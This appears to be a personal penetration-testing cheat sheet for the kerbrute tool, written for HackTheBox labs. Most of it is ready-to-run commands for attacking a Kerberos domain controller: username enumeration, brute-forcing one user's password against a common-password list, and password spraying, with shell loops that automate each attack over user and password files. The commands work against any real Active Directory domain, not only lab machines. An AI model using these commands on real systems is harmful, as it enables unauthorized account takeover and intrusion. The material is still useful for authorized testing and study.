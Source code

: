 ```yaml
---
tags:
---
```

# kerbrute

Bruteforce Kerberos: https://github.com/ropnop/kerbrute

## Capabilities

```bash
# Brute force valid usernames
./kerbrute userenum -d $domain --dc $ip users.txt -v

# Brute force passwords for a given user
./kerbrute bruteuser -d analysis.htb --dc $IP /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt jdoe
while IFS= read -r user; do ./kerbrute bruteuser -d $domain --dc $ip /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $user; done < users.txt

# Password spray for a given user list
./kerbrute passwordspray -d $domain --dc $ip users.txt 'Darkness1099!'
while IFS= read -r password; do ./kerbrute passwordspray -d $domain --dc $ip users.txt $password; done < passwords.txt
```

Use the following password list for bruteforcing in hackthebox:

```
/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt
```